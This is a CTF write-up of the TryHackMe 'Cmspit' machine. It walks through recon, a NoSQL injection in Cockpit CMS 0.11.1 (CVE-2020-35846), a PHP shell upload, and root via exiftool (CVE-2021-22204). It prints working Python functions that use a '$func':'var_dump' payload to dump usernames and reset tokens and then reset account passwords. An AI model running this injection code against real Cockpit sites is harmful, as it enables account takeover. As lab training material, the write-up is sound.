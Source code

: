 ```yaml
---
title: Cmspit
date: 2021-11-29 11:11:11 +/-TTTT
categories: [CTF, tryhackme]
tags: [cms, mongodb,nosql injection,CVE-2020-35846,CVE-2021-22204, exiftool]
---
```


This is a machine that allows you to practice web app hacking and privilege escalation using recent vulnerabilities.

|Machine Name | Date | Level | Type |
|-------------|-------|------|------|
| Cmspit | 2021 30 Nov 2021 | Medium | ctf |

![infocard](https://tryhackme-images.s3.amazonaws.com/room-icons/af878fdc94fd054dd34b05b7977a6c09.png)


## Reconnaissance

As always start with Nmap.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-29 11:09 EST
Nmap scan report for 10.10.29.223
Host is up (0.32s latency).

PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
80/tcp open  ssl/http Apache/2.4.18 (Ubuntu)
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Authenticate Please!
|_Requested resource was /auth/login?to=/
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.16 seconds


```

We got two services to attack. ssh and HTTP. generally, HTTP is more prone to be vulnerable, lets start with HTTP :

### http

When we go-to IP address, we got a login page. On the login page, we find out that it uses `cockpit` cms. the cockpit is an open-source content management system.

![login](/assets/thm/cmspit/login.png)

and looking at page source code found out the cms version: `0.11.1`

![version](/assets/thm/cmspit/version.png)

A quick `searchsploit` search and we found an exploit.

![searchsploit](/assets/thm/cmspit/searchsploit.png)

This exploit enumerates the username and resets the password for the user using NoSQL Injection.

## Gaining Access

Let's understand the exploit before running it.

exploit code target the `/auth/check `. after checking the code we know that there is an issue with `user` parameter. it does not check if the user provides the genuine username or other objects. here if feed the other objects it will be parsed by MongoDB shell and run as a query.

![code](https://swarm.ptsecurity.com/wp-content/uploads/2021/04/cockpit_auth_authenticate_src.png)

`/auth/check` code.


### Username Enumeration

```
def enumerate_users(url):
    print("[-] Attempting Username Enumeration (CVE-2020-35846) : \n")
    url = url + "/auth/requestreset"
    headers = {
        "Content-Type": "application/json"
    }
    data= {"user":{"$func":"var_dump"}}
    req = requests.post(url, data=json.dumps(data), headers=headers)
    pattern=re.compile(r'string\(\d{1,2}\)\s*"([\w-]+)"', re.I)
    matches = pattern.findall(req.content.decode('utf-8'))
    if matches:
        print ("[+] Users Found : " + str(matches))
        return matches
    else:
        print("No users found")

```

Exploit code send the request to `/auth/requestreset` (`/auth/check` is also vulnerable ) and send data as `{"user":{"$func":"var_dump"}}` to retrive the all users.

`var_dump`: var_dump is a PHP function that dumps info about one or more variables.

![user_dump](/assets/thm/cmspit/user_dump.png)

We got four users.

1. admin
2. sdarkStar7471
3. skidy
4. ekoparty

### get token for reset password

`/auth/resetpassword` is responsible for a user password reset.

![code](https://swarm.ptsecurity.com/wp-content/uploads/2021/04/cockpit_auth_resetpassword_src.png)

Like `user` parameter, `token` parameter also does not filter anything. so we can use the previous method (`var_dump`) to extract the existing tokens.

```python3
def reset_tokens(url):
    print("[+] Finding Password reset tokens")
    url = url + "/auth/resetpassword"
    headers = {
        "Content-Type": "application/json"
        }
    data= {"token":{"$func":"var_dump"}}
    req = requests.post(url, data=json.dumps(data), headers=headers)
    pattern=re.compile(r'string\(\d{1,2}\)\s*"([\w-]+)"', re.I)
    matches = pattern.findall(req.content.decode('utf-8'))
    if matches:
        print ("\t Tokens Found : " + str(matches))
        return matches
    else:
        print("No tokens found, ")

```

### Reset password

```python3
def password_reset(url, token, user):
    print("[-] Attempting to reset %s's password:" %user)
    characters = string.ascii_letters + string.digits + string.punctuation 
    password = ''.join(random.choice(characters) for i in range(10))
    url = url + "/auth/resetpassword"
    headers = {
        "Content-Type": "application/json"
        }
    data= {"token":token, "password":password}
    req = requests.post(url, data=json.dumps(data), headers=headers)
    if "success" in req.content.decode('utf-8'):
        print("[+] Password Updated Succesfully!")
        print("[+] The New credentials for %s is: \n \t Username : %s \n \t Password : %s" % (user, user, password))

```

It will send the token and new password and the application change the account password by using the `/auth/resetpassword` method.

![password.png](/assets/thm/cmspit/password.png)

Now we have the new password and username. we can log in to the box.

go to `http://10.10.3.161/finder` and upload a PHP shell.

Got shell as www-data

![wwwdata](/assets/thm/cmspit/wwwdata.png)


## Privilege Escalation

### www-data to stux.

after some enumeration we found a user on box `stux` and in his home directory found a file called `.dbshell`.

this file has a password for stux.


`stux: p****************3`


Log in as stux using the above password.

```bash
stux@ubuntu:~$ whoami
whoami
stux

```

### stux to root.

stux can run `exiftool` as root.

from here we can get only `root.txt` and stop or we can get the actual root shell. we go with the second option because why not.

So after some more enumeration, I found that `exiftool` is vulnerable to `CVE-2021-22204`.

![dejavu](/assets/thm/cmspit/dejavu.png)

```bash
root@ubuntu:~# whoami
root

```

## Resources

[From 0 to RCE: Cockpit CMS](https://swarm.ptsecurity.com/rce-cockpit-cms/)

[A case study on CVE-2021-22204 – Exiftool RCE](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)